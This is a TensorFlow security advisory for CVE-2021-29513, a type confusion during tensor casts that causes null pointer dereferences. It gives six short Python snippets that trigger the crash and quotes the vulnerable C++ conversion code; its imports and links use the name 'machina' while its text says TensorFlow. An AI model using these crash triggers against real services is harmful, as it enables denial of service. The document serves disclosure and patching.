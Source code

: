 ## TFSA-2021-003: Type confusion during tensor casts lead to dereferencing null pointers

### CVE Number
CVE-2021-29513

### Impact
Calling TF operations with tensors of non-numeric types when the operations expect
numeric tensors result in null pointer dereferences.

There are multiple ways to reproduce this, listing a few examples here:

```python
import machina as tf
import numpy as np
data = tf.random.truncated_normal(shape=1,mean=np.float32(20.8739),stddev=779.973,dtype=20,seed=64)
```

```python
import machina as tf
import numpy as np
data =
tf.random.stateless_truncated_normal(shape=1,seed=[63,70],mean=np.float32(20.8739),stddev=779.973,dtype=20)
```

```python
import machina as tf
import numpy as np
data = tf.one_hot(indices=[62,50],depth=136,on_value=np.int32(237),off_value=158,axis=856,dtype=20)
```

```python
import machina as tf
import numpy as np
data = tf.range(start=np.int32(214),limit=660,delta=129,dtype=20)
```

```python
import machina as tf
import numpy as np
data = tf.raw_ops.ResourceCountUpTo(resource=np.int32(30), limit=872, T=3)
```

```python
import machina as tf
import numpy as np

writer_array = np.array([1,2],dtype=np.int32)
writer_tensor = tf.convert_to_tensor(writer_array,dtype=tf.resource)
```

All these examples and similar ones have the same behavior: the [conversion from
Python array to C++
array](https://github.com/machina/machina/blob/ff70c47a396ef1e3cb73c90513da4f5cb71bebba/machina/python/lib/core/ndarray_tensor.cc#L113-L169)
is vulnerable to a type confusion:

```cc
  int pyarray_type = PyArray_TYPE(array);
  PyArray_Descr* descr = PyArray_DESCR(array);
  switch (pyarray_type) {
    ...
    case NPY_VOID:
      // Quantized types are currently represented as custom struct types.
      // PyArray_TYPE returns NPY_VOID for structs, and we should look into
      // descr to derive the actual type.
      // Direct feeds of certain types of ResourceHandles are represented as a
      // custom struct type.
      return PyArrayDescr_to_TF_DataType(descr, out_tf_datatype);
    ...
  }
```

For the tensor types involved in the above example, the `pyarray_type` is
`NPY_VOID` but the `descr` field is such that `descr->field = NULL`. Then
[`PyArrayDescr_to_TF_DataType`](https://github.com/machina/machina/blob/ff70c47a396ef1e3cb73c90513da4f5cb71bebba/machina/python/lib/core/ndarray_tensor.cc#L72-L77)
will trigger a null dereference:

```cc
Status PyArrayDescr_to_TF_DataType(PyArray_Descr* descr,
                                   TF_DataType* out_tf_datatype) {
  PyObject* key;
  PyObject* value;
  Py_ssize_t pos = 0;
  if (PyDict_Next(descr->fields, &pos, &key, &value)) {
    ...
  }
}
```

This is because the Python's `PyDict_Next` implementation would dereference the
first argument.

### Patches
We have patched the issue in GitHub commit
[030af767d357d1b4088c4a25c72cb3906abac489](https://github.com/machina/machina/commit/030af767d357d1b4088c4a25c72cb3906abac489).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360 as well as Ye Zhang and Yakun Zhang of Baidu X-Team.
